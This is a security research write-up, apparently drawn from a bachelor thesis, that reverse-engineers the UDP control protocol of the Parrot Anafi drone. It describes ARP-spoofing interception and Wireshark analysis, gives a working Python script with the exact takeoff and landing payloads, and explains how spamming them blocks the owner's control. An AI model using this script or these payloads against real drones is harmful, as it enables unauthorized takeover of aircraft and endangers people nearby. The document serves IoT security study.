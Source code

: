 # Parrot Anafi Drone Reverse Engineering

In this example, we demonstrate how we reverse-engineered the communication between the Parrot Anafi consumer drone and its controller, which connect via Wi-Fi. The Parrot Anafi hosts its own Wi-Fi network, allowing either the controller or a phone running the Freeflight app to connect. Our goal was to understand the signals sent to the Anafi for initiating takeoff and landing sequences.

## Test Setup

Start by connecting your PC to the Parrot Anafi’s Wi-Fi network. Next, set up an ARP spoofing attack to place your PC in a man-in-the-middle position between the drone and its controller. This can be accomplished using tools like Ettercap, allowing your device to capture the data exchanged between the two.

The resulting test setup may look like this:

<figure><img src="../../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Parrot Anafi test setup</p></figcaption></figure>

## Packet Analysis

Using Wireshark, we can look at the packets, which are send during a landing and a starting sequence (picture shows just a snippet):

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Example packet</p></figcaption></figure>

We can see that the communication between the drone and the controller is done over UDP. Every UDP packet had some kind of hex string as payload, which was non-ASCII

Next, we looked at the distribution of the packets send, of all packets send during one start and landing of the drone:

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Distribution of UDP packet type during one start and landing</p></figcaption></figure>

To distinguish which packet is responsible for the start and landing we captured 17 start and landings and saw that the amount of third type (length=53 bytes) of messages went from 2 to 34. Could this be the packet which controls the start/landing? since 17\*2=34

We can filter in Wireshark with `frame.len==53` to filter just for the start/landing packets:

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Wireshark filter which only shows start and landing packets</p></figcaption></figure>

The payload of the packets had a pretty clear structure: (here an example of a few)

```
04 0b 0b 00 00 00 00 01 00 01 00
04 0b 0c 0b 00 00 00 01 00 03 00
04 0b 0d 0b 00 00 00 01 00 01 00
04 0b 0e 0b 00 00 00 01 00 03 00
04 0b 0f 0b 00 00 00 01 00 01 00
04 0b 10 0b 00 00 00 01 00 03 00
04 0b 11 0b 00 00 00 01 00 01 00
04 0b 12 0b 00 00 00 01 00 03 00
```

After analyzing the protocol more, we could reverse the format of this type packet:

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Structure of start and landing packets</p></figcaption></figure>

## Attack

Let's see if we can send our own packets from our PC to the drone, in order to start and land it, without using the controller. For that we setup a Python script (see below) to send a UDP packet with the payload `040bff0b000000300001000100` to the drone to start it. Note that we set the counter to `FF`, as packets are dropped by the drone if the counter value is less than the current counter. Using `FF` ensures it is always accepted.

```python
import socket

# Define target IP and ports
target_ip = "192.168.42.1"
destination_port = 2233

# Define the payload
payload = bytes.fromhex("040bff0b000000300001000100") #for starts
#payload = bytes.fromhex("040bff0b000000300001000300") #for landings

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Send the payload to the target IP and port
sock.sendto(payload, (target_ip, destination_port))

# Close the socket
sock.close()

print(f"Payload sent to {target_ip}:{destination_port}")
```

And we did it! The drone performed its auto-start maneuver and was hovering above! In order to land the drone again we can send `040bff0b000000300001000300`to the drone. Note that the trigger byte (2nd last byte) was set to `03`.

Notice, one does not need to change the MAC address to get these results. The Anafi processed the packages even though the laptop was not the primary controller at this time.

If we spam either the takeoff or landing command, the following attacks can be exploited:

1. **Possible ATTACKS**
   1. Prevent starts
      1. The next experiment was to spam the landing command constantly, with the result that the drone was unable to start using the controller. The drone’s rotors were spinning for a second but then the landing command was received and the Anafi stopped the starting process.
   2. Prevent landing
      1. The same result could be achieved with spamming the starting package. If one presses the landing button on the controller or phone the drone started to go down, but as soon as the starting package from the laptop came in the drone stopped the landing and stared to hovering above the ground again. As a result, the phone user was unable to land the drone properly.

## Summary

This case study shows why it is relevant to reverse network protocols when analyzing IoT devices. As an attacker, who has access to the Parrot Anafis WiFi network we can send unauthenticated packets to the drone and control its starts and landings. This can be done by any device, which can connect to WiFi networks.

## Resources

Bachelor Thesis, Jonas Rosenberger

[https://www.parrot.com/en/drones/anafi](https://www.parrot.com/en/drones/anafi)
